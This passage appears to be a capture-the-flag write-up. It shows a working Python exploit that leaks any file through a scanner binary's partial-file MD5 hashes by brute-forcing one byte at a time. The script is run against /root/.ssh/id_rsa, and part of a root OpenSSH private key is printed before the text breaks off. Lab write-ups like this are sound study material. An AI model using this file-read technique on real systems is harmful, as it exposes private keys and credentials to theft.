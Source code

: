 If I can get the hash of the first byte of a file, then I can brute force all possible bytes and take their hashes and compare to get a match. Then I can do the same with the first two bytes, first three bytes, etc, until I have the full file.
```
#!/usr/bin/env python3

import hashlib
import subprocess
import sys


def get_hash(fn, n):
    """Get the target hash for n length characters of 
    filename fn"""
    proc = subprocess.run(f"/opt/scanner/scanner -c {fn} -s whatever -p -l {n}".split(),
                stdout=subprocess.PIPE, stderr=subprocess.PIPE)
    try:
        return proc.stdout.decode().strip().split()[-1]
    except IndexError:
        return None


def get_next_char(output, target):
    """Take the current output and figure out what the
    next character will be given the target hash"""
    for i in range(256):
        if target == hashlib.md5(output + chr(i).encode()).hexdigest():
            return chr(i).encode()


output = b""
fn = sys.argv[1]

while True:
    target = get_hash(fn, len(output) + 1)
    next_char = get_next_char(output, target)
    if next_char is None:
        break
    output += next_char
    print(next_char.decode(), end="")
```

Then `python3 exploit.py /root/.ssh/id_rsa`
```
greg@intentions:~$ python3 read_file.py /root/.ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEA5yMuiPaWPr6P0GYiUi5EnqD8QOM9B7gm2lTHwlA7FMw95/wy8JW3
HqEMYrWSNpX2HqbvxnhOBCW/uwKMbFb4LPI+EzR6eHr5vG438EoeGmLFBvhge54WkTvQyd
vk6xqxjypi3PivKnI2Gm+BWzcMi6kHI+NLDUVn7aNthBIg9OyIVwp7LXl3cgUrWM4StvYZ
ZyGpITFR/1KjaCQjLDnshZO7OrM/PLWdyipq2yZtNoB57kvzbPRpXu7ANbM8wV3cyk/OZt
0LZdhfMuJsJsFLhZufADwPVRK1B0oMjcnljhUuVvYJtm8Ig/8fC9ZEcycF69E+nBAiDuUm
kDAhdj0ilD63EbLof4rQmBuYUQPy/KMUwGujCUBQKw3bXdOMs/jq6n8bK7ERcHIEx6uTdw
gE6WlJQhgAp6hT7CiINq34Z2CFd9t2x1o24+JOAQj9JCubRa1fOMFs8OqEBiGQHmOIjmUj
7x17Ygwfhs4O8AQDvjhizWop/7Njg7Xm7ouxzoXdAAAFiJKKGvOSihrzAAAAB3NzaC1yc2
EAAAGBAOcjLoj2lj6+j9BmIlIuRJ6g/EDjPQe4JtpUx8JQOxTMPef8MvCVtx6hDGK1kjaV
9h6m78Z4TgQlv7sCjGxW+CzyPhM0enh6+bxuN/BKHhpixQb4YHueFpE70Mnb5OsasY8qYt
z4rypyNhpvgVs3DIupByPjSw1FZ+2jbYQSIPTsiFcKey15d3IFK1jOErb2GWchqSExUf9S
o2gkIyw57IWTuzqzPzy1ncoqatsmbTaAee5L82z0aV7uwDWzPMFd3MpPzmbdC2XYXzLibC
bBS4WbnwA8D1UStQdKDI3J5Y4VLlb2CbZvCIP/HwvWRHMnBevRPpwQIg7lJpAwIXY9IpQ+
txGy6H+K0JgbmFED8vyjFMBrowlAUCsN213TjLP46up/GyuxEXByBMerk3cIBOlpSUIYAK
eoU+woiDat+GdghXfbdsdaNuPiTgEI/SQrm0WtXzjBbPDqhAYhkB5jiI5lI+8de2IMH4bO
DvAEA744Ys1qKf+zY4O15u6Lsc6F3QAAAAMBAAEAAAGABGD0S8gMhE97LUn3pC7RtUXPky
tRSuqx1VWHu9yyvdWS5g8iToOVLQ/RsP+hFga+jqNmRZBRlz6foWHIByTMcOeKH8/qjD4O
9wM8ho4U5pzD5q2nM3hR4G1g0Q4o8EyrzygQ27OCkZwi/idQhnz/8EsvtWRj/D8G6ME9lo
```